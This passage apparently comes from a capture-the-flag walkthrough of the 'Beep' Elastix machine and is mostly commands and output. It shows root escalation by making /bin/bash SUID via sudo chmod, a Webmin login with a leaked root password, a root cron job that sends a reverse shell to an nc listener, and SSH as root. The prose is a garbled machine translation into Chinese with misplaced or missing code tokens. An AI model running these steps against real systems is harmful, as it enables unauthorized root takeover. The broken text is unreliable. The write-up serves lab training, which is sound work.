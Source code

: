
`chmod` jumps out right away. I’ll pick a file, like , and set it to SUID:`/bin/bash`

    bash-3.2$ ls -l /bin/bash
    -rwxr-xr-x 1 root root 729292 Jan 22  2009 /bin/bash
    bash-3.2$ sudo chmod 4755 /bin/bash
    bash-3.2$ ls -l /bin/bash
    -rwsr-xr-x 1 root root 729292 Jan 22  2009 /bin/bash
    

Now just run it (with to not drop privs) and get a root shell:`-p`

    bash-3.2$ bash -p
    bash-3.2# id
    uid=100(asterisk) gid=101(asterisk) euid=0(root)
    

## 韦伯明 \[路径 #2\]

尝试使用我从LFI收集的密码的用户名根，我可以登录到具有根/ jehdIekWmdjE的网络。此接口旨在管理计算机，并具有完全的 root 访问权限：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210218143335619.png) 

登录这里，我基本上拥有这个系统。我可以更改任何用户的密码（见上图），计划crons，安装软件包或以任何用户身份运行命令。

我将创建一个作为 root 的任务：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210218143717829.png) 

一分钟后，当它运行时，一个外壳来到：`nc`

    root@kali$ sudo nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.2] from (UNKNOWN) [10.10.10.7] 37697
    bash: no job control in this shell
    [root@beep /]# id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
    

## 作为根的 SSH \[路径 #3\]

webmin的根登录名是根帐户密码是正常的，这里就是这种情况，因为“jEhdIekWmdjE”密码适用于作为根的SSH：

    root@kali# ssh root@10.10.10.7
    root@10.10.10.7's password:
    Last login: Fri Aug 25 18:05:54 2017
    
    Welcome to Elastix
    ----------------------------------------------------
    
    To access your Elastix System, using a separate workstation (PC/MAC/Linux)
    Open the Internet Browser using the following URL:
    http://10.10.10.7
    
    [root@beep ~]#
    

## 炮击 \[路径 #4\]
